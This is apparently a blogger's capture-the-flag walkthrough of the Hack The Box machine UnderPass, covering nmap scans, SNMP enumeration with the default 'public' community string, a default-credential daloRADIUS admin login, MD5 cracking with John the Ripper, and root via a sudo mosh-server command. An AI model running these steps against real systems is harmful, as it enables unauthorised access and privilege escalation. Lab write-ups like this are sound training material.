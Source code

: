 # UnderPass
SNMP disclosure, Default authentication vulnerability and Mosh

- `10.10.11.48`
- Linux
- Easy

It's been a minute for me, lets take a crack at it! 

Start with `nmap` of course.

    nmap -sC -sV -vv 10.10.11.48

Looks like we get responses from the `SSH` port `22` and `HTTP` on port `80`.

    PORT   STATE SERVICE REASON  VERSION
    22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK+kvbyNUglQLkP2Bp7QVhfp7EnRWMHVtM7xtxk34WU5s+lYksJ07/lmMpJN/bwey1SVpG0FAgL0C/+2r71XUEo=
    |   256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ8XNCLFSIxMNibmm+q7mFtNDYzoGAJ/vDNa6MUjfU91 
    80/tcp open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
    | http-methods:
    |_  Supported Methods: POST OPTIONS HEAD GET
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


Visiting the index page for the web server at `http://10.10.11.48/` yields the default apache page.

We can try to brute force web directories and virtual hosts with `gobuster`.

However, it doesn't seem like there's any common routes on this web server... 

The machine doesn't seem to host any `DNS` server. let's do a full port scan.

    nmap -sS -p- -vv underpass.htb

Same thing.

    PORT   STATE SERVICE REASON
    22/tcp open  ssh     syn-ack ttl 63
    80/tcp open  http    syn-ack ttl 63


Hmm... what about `UDP`?

    nmap -sU -vv underpass.htb

Oh! looks like we have `SNMP` related things?

    PORT     STATE         SERVICE REASON
    161/udp  open          snmp    udp-response ttl 63
    1812/udp open|filtered radius  no-response
    1813/udp open|filtered radacct no-response

Okay, down the `SNMP` rabbit hole.

found a useful command called `snmpwalk` which dumps public `SNMP` records. 

Apparently version `3` of `SNMP` introduces stronger authentication so its always worthwhile to try the weaker versions of the protocol first.

Just for future reference. `SNMP` version `2c` and below uses something like a password to protect the data called a `community string`.

Don't ask me why `2c` is called `2c` instead of `2`. I didn't look into it.

For publicly available data, usually that password is something like `public`. According to
some older sources, it looks like `private` is also a common default community string. 

Running this command will dump all the public records using the `2c` version of the protocol.

    snmpwalk -v 2c -c public underpass.htb

Looks like we found a username, super useful. This looks like something that could even be found in the wild.

    SNMPv2-MIB::sysDescr.0 = STRING: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
    SNMPv2-MIB::sysObjectID.0 = OID: NET-SNMP-MIB::netSnmpAgentOIDs.10
    DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (4135752) 11:29:17.52
    SNMPv2-MIB::sysContact.0 = STRING: steve@underpass.htb
    SNMPv2-MIB::sysName.0 = STRING: UnDerPass.htb is the only daloradius server in the basin!
    SNMPv2-MIB::sysLocation.0 = STRING: Nevada, U.S.A. but not Vegas


We also found what looks like the name of a service. `daloradius`. 

Doing a quick search online, [that's exactly what it is.](https://github.com/lirantal/daloradius.git).  

Found `/daloradius/app/users/login.php` which will allow me to log into the application.  

Maybe from here we can gather the version of the webserver and look for any CVEs. 

Tried all the default credentials in the README but no luck... 

_~about 2 hours pass~_

Okay, so i was messing around some more and this is why it's important to double check things. 

`/daloradius/app/users/login.php` is for regular users.

`/daloradius/app/operators/login.php` is for admins. 

![daloradius-admin](/static/media/ctf/htb-daloradius.png)

Anyway... It's important to reset the default password after installing one of these dashboards. Otherwise _anyone_ could just read the GitHub documentation and log in. 

I found one user named `svcMosh` in the users list. The word `Mosh` leads me to believe that the program `Mosh` is involved somehow, but we'll have to see. 

When we go the users page, an `MD5` hash for our user is seemingly right here in the UI. 

`412DD4...` is the first 6 characters of the hash. You can see for yourself what the rest of the chracters are. We're going to save this into `md5sum.txt`. 

    john --wordlist=./rockyou.txt --format=Raw-MD5 ./md5sum.txt

[John the Ripper](https://www.openwall.com/john/) will make short work of this hash with the `rockyou.txt` wordlist. 

Okay... Using those creds with `SSH` doesnt seem to do anything. not with `steve` or `svcmosh`. 

Maybe this is just something that will come in handy later? 

...`version 2.2 beta / 03 Jul 2024` so maybe no SQLi like we see on `exploitdb`... 

_~about 2 more hours pass~_

I WAS BEING DUMB. CASE MATTERS! 

`ssh svcMosh@underpass.htb` with the cracked hash gives us a user on the box. 

![dalradius-user-shell](/static/media/ctf/htb-daloradius-user.png)

Yay!

The first thing to do is check if we straight up have root privs for anything, so `sudo -l` which gives us the interesting path of `/usr/bin/mosh-server`. 

    Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

    User svcMosh may run the following commands on localhost:
        (ALL) NOPASSWD: /usr/bin/mosh-server

I will save you the wasted time and effort I made while trying to crack this, but this is kinda sneaky. 

The program `mosh` works by running `mosh-client` to interact with `SSH`, and then running a command through `SSH` to start `mosh-server` on the remote machine. 

The `mosh` command has an argument called `--server` which is _what I thought was_ a strict path, however it's perfectly valid to supply arguments as well. 

Seeing this, there's nothing stopping us from supplying `sudo /usr/bin/mosh-server` for the path. 

    mosh --server="sudo /usr/bin/mosh-server" localhost
    
Drops us into a root shell. 

![dalradius-root-shell](/static/media/ctf/htb-daloradius-root.png)

Nice! 

I would say this machine is very easy. I was able to figure it out without any help except for the `SNMP` foothold, but that was minimal. 

_~ Happy Hacking_
